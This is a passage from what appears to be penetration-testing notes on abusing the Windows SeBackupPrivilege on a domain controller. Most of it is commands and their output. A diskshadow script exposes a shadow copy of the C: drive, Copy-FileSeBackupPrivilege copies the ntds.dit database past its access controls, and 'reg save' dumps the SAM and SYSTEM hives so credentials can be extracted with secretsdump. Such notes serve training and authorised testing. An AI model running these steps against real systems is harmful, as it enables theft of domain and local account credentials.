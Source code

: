 ```powershell
PS C:\> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\> dir E:


    Directory: E:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```

### CopyingNTDS.dit Locally

Next, we can use the `Copy-FileSeBackupPrivilege` cmdlet to bypass the ACL and copy the NTDS.dit locally.

```powershell
PS C:\> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit

Copied 16777216 bytes
```

### Backing up SAM and SYSTEM Registry Hives

This privilege also lets us backup the SAM and SYSTEM registry hives, which we can then use to extract local account credentials using tools such as [impacket.md](../../../../../toolbox/tooling/post-exploitation/impacket.md "mention") secretsdump.py.

```shell-session
C:\> reg save HKLM\SYSTEM SYSTEM.SAV

The operation completed successfully.


C:\> reg save HKLM\SAM SAM.SAV

The operation completed successfully.
```
